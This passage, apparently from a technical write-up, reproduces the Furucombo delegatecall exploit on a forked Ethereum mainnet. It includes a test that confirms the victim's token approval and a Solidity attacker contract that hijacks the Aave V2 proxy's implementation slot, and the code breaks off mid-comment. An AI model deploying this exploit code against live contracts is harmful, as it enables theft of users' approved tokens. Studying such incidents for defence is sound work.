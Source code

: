 ```typescript
  it("checks _isValid(aaveV2Proxy)", async function () {
    // is a private storage field, need to read it raw
    const HANDLER_REGISTRY_SLOT = `0x6874162fd62902201ea0f4bf541086067b3b88bd802fac9e150fd2d1db584e19`;
    const registryAddr = BigNumber.from(
      await ethers.provider.getStorageAt(
        furucomboProxy.address,
        HANDLER_REGISTRY_SLOT
      )
    ).toHexString();
    console.log(`Registry address: ${registryAddr}`);
    const registry = await ethers.getContractAt(`IRegistry`, registryAddr);
    const isValid = await registry.isValid(aaveV2Proxy.address);
    expect(isValid, "!isValid").to.be.true;
  });
});
```

We fork the ETH mainnet from block number `11940499` and confirm that the victim approved the Furucombo contract and that the Aave V2 proxy is registered as valid.

For the actual attack, we can create a smart contract that has two functions, one for the `setup` step, one for the `attack`:

```solidity
contract Attacker {
    IProxy public constant furucombo =
        IProxy(0x17e8Ca1b4798B97602895f63206afCd1Fc90Ca5f);
    IAaveV2Proxy public constant aaveV2Proxy =
        IAaveV2Proxy(0x7d2768dE32b0b80b7a3454c06BdAc94A69DDc7A9);

    function setup() external payable {
        // https://ethtx.info/mainnet/0x6a14869266a1dcf3f51b102f44b7af7d0a56f1766e5b1908ac80a6a23dbaf449
        address[] memory tos = new address[](1);
        bytes32[] memory configs = new bytes32[](1);
        bytes[] memory datas = new bytes[](1);
        // aaveV2Proxy is whitelisted and passes registry._isValid(aaveV2Proxy)
        // then delegatecalls to aaveV2Proxy.initialize(this, "");
        // which stores implementation address
        tos[0] = address(aaveV2Proxy);
        datas[0] = abi.encodeWithSelector(
            aaveV2Proxy.initialize.selector,
            address(this),
            ""
        );
        furucombo.batchExec(tos, configs, datas);
    }

    function attack(IERC20 token, address sender) external payable {
        address[] memory tos = new address[](1);
        bytes32[] memory configs = new bytes32[](1);
        bytes[] memory datas = new bytes[](1);
        tos[0] = address(aaveV2Proxy);
        datas[0] = abi.encodeWithSelector(
            this.attackDelegated.selector,
            token,
            sender
        );
        // aaveV2Proxy is whitelisted and passes registry._isValid(aaveV2Proxy)
        // then delegatecalls to aaveV2Proxy.fallback
        // which delegatecalls again to its implementation address
        // which was changed in setup to "this"
        // meaning, furucombo delegatecalls to this.attackDelegated
```